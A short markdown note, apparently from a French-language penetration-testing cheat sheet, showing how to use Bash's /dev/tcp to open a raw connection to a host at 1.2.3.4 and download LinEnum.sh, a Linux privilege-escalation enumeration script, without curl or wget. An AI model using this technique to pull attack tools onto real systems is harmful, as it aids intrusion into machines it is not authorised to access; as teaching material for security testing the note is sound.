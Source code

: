 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Bash (/dev/tcp)

```
# connection
exec 3<>/dev/tcp/1.2.3.4/80

# Envoie du HTTP GET
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3

# Affichage de la réponse
cat <&3
```